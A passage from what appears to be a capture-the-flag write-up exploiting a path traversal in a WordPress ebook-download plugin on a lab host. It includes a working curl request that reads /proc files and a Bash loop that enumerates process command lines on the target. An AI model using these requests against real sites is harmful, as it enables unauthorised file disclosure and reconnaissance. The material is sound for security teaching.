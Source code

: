 
It seems to print the given parameter three times, then without a break the
results, which includes `\x00` where I would want spaces. Then it ends in
`<script>window.close()</script>`.

I can use `tr` to [replace the nulls with
whitespace](https://stackoverflow.com/a/42592972), and `cut` to remove the
beginning and end:

    
    
    oxdf@hacky$ curl -s http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../../../../../proc/self/cmdline | tr '\000' ' ' | cut -c115- | rev | cut -c32- | rev
    /usr/sbin/apache2 -k start
    

The breaks down as:

  * `tr '\000' ' '` \- replace nulls with spaces
  * `cut -c115-` start at character 115 and print the rest. I’ll note that 115 is three times the length of the parameter plus 1.
  * `rev | cut -c32- | rev` \- reverse the string, start 32 characters in, and then reverse again, effectively removing the last 31 characters.

This traversal also works with absolute paths, so
`ebookdownloadurl=/proc/self/cmdline`.

#### Bash Script

I can make a quick Bash script from this to loop over a range of pids and try
to find processes:

    
    
    #!/bin/bash
    
    for i in $(seq 1 50000); do
    
        path="/proc/${i}/cmdline"
        skip_start=$(( 3 * ${#path} + 1))
        skip_end=32
    
        res=$(curl -s http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=${path}ne -o- | tr '\000' ' ')
        output=$(echo $res | cut -c ${skip_start}- | rev | cut -c ${skip_end}- | rev)
        if [[ -n "$output" ]]; then
            echo "${i}: ${output}"
        fi
    
    done
    

This effectively does what I showed above, capturing the results with nulls
replaced in `res`, then cutting the start and end and saving as `output`, and
finally printing the pid and the command line if it’s there.

This is a bit slow, but good enough to do the job. I hope to come back and do
a post and/or video on parallelizing this in the future.

The script clears the first 1000 processes in a minute or so, which is enough
to spot PID 851:
